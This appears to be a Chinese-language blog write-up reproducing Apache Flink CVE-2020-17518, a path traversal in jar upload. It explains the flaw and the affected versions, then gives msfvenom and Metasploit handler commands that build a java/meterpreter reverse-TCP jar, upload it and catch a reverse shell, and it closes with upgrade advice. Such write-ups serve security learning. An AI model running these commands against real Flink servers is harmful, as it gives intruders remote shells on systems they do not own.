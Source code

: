 ```yaml
---
title: Apache Flink（cve-2020-17518）   --夜魔
layout: mypost
categories: [漏洞复现]
---
```



**1.****漏洞名称**：

**apache Flink 路径遍历漏洞（上传jar包）**

 

**2.****漏洞原理**：

**Flink 在 1.5.1 版本中引入了一个 REST handler，这允许攻击者将已上传的文件写入本地任意位置的文件中，并且可通过一个恶意修改的 HTTP 头将这些文件写入到 Flink 1.5.1 可以访问的任意位置**

 

**Flink 1.5.1-1.11.2中，允许文件上传到直接上传到服务器中的任意位置中**

**在用户上传一个文件时，filename是用户可以控制的，将filename的路径于服务器路径进行拼接**

 

**3.****受影响版本****：**

**Apache Flink 1.5.1 ~ 1.11.2**

 

**4.****漏洞复现：**

访问地址

![image-20211106102216628](image-20211106102216628.png)

使用kali生成一个jar文件

msfvenom ‐p java/meterpreter/reverse_tcp LHOST=ip LPORT=端口 ‐f jar > 名字.jar

![image-20211106102240945](image-20211106102240945.png)

![image-20211106102302878](image-20211106102302878.png)

接着打开msfconsole 设置攻击端口以及ip

`use exploit/multi/handler (选择攻击模块)`

`set lhost 0.0.0.0 （设置监听ip）0.0.0.0（代表监听所有流向12345的端口的流量）`

`set lport 12345 （设置监听端口）`

`set payload java/meterpreter/reverse_tcp （使用刚刚生成的payload）`

`show options` 

`run`

![image-20211106102403856](image-20211106102403856.png)

接着上传jar包

![image-20211106102420717](image-20211106102420717.png)

点击submit后，返回kali中查看反弹回来的shell

![image-20211106102434280](image-20211106102434280.png)

**5.****修复建议：**

升级flink的版本
